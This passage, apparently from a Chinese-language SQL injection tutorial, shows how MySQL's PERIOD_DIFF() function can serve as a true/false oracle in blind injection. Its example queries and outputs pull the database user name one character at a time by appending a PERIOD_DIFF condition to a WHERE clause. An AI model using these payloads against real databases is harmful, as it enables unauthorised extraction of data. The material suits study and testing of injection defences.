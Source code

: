 ```plain
1 row in set
```

## 0x03 PERIOD_DIFF() 函数

```plain
PERIOD_DIFF(period1, period2)       返回两个时段之间的月份差值
```

### 0x03.1 例子

```plain
# user() 第一位数据转ascii

mysql> select ascii(substring(user(),1,1));
+------------------------+
| ascii(substring(user(),1,1)) |
+------------------------+
|                    114 |
+------------------------+
1 row in set
# user() 第二位数据转ascii

mysql> select ascii(substring(user(),2,1));
+------------------------+
| ascii(substring(user(),2,1)) |
+------------------------+
|                    111 |
+------------------------+
1 row in set
# 表示注入失败的时候

# 表示两个值相差1位
# ascii(substring(user(),1,1)) = 114
# 不为0就是表示True,那么页面就不会产生变化
mysql> select PERIOD_DIFF(ascii(substring(user(),1,1)), 113);
+----------------------------------------+
| PERIOD_DIFF(ascii(substring(user(),1,1)), 113) |
+----------------------------------------+
|                                      1 |
+----------------------------------------+
1 row in set



# 匹配失败的时候页面的数据会返回正常,不产生变化
mysql> SELECT * from test_table where id=1 and PERIOD_DIFF(ascii(substring(user(),1,1)), 113);
+----+-------+
| id | name |
+----+-------+
|  1 | bbb   |
+----+-------+
1 row in set
# 表示注入成功的时候

# 表示两个值相等
# ascii(substring(user(),1,1)) = 114
# 为0就是表示False
mysql> select PERIOD_DIFF(ascii(substring(user(),1,1)), 114);
+----------------------------------------+
| PERIOD_DIFF(ascii(substring(user(),1,1)), 114) |
+----------------------------------------+
|                                      0 |
+----------------------------------------+
```
